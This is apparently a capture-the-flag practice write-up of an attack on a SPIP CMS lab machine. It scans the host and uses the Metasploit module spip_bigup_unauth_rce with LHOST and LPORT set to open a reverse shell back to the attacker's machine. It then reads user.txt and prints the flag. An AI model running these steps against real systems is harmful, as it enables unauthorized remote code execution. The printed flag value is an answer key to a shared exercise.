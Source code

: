 FLAG 1  (1 - 11 pictures)
Goal: Gain unauthorized access and capture the user.txt flag from a vulnerable machine running the SPIP CMS.
This project was completed as part of penetration testing practice.

Target Description
Target IP: 10.201.26.102
My Kali IP: 10.10.190.95
Objectives:

Scan the target host and identify open ports.

Discover a vulnerable web application (SPIP CMS).

Gain a reverse shell.

Escalate privileges to the think user.

Find and capture the user.txt flag.

Scanning
Initial Nmap scan revealed:

nmap -sC -sV -p- 10.201.26.102

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54
Port 80 was open. Visiting the page in a browser showed a standard SPIP CMS interface.

Vulnerability Discovery
Using whatweb, I confirmed the server runs SPIP CMS:

whatweb http://10.201.26.102/
=> SPIP, Apache, PHP
After checking the plugin and core versions, I confirmed it was vulnerable to unauthenticated RCE via the bigup module (spip_bigup_unauth_rce).

Exploitation (First Failed Attempt)
I initially tried to use:

use exploit/unix/webapp/spip_exec
But Metasploit returned:

[-] Failed to load module: exploit/unix/webapp/spip_exec
So this attempt failed.

Successful Exploitation
I then found the correct module in Metasploit:

use exploit/multi/http/spip_bigup_unauth_rce
Set the options:

set RHOSTS 10.201.26.102
set LHOST 10.10.190.95
set LPORT 9001
set TARGETURI /
run
And successfully got:

[*] Command shell session 1 opened
Working in the Shell
Although the shell was unstable, I managed to run basic commands and navigate to the home directory:

cd /home/think
ls -la
Output:


Edit
-rw-r--r-- 1 root root 35 Feb 10  2024 user.txt
Then:

cat user.txt
And retrieved the flag:
fa229046d44eda6a3598c73ad96f4ca5

Conclusion
Despite unstable shell sessions, I successfully:

Identified a SPIP-based web app.

Found an unauthenticated RCE vulnerability via the bigup module.

Gained shell access and navigated the system as user think.

Captured the user.txt flag.

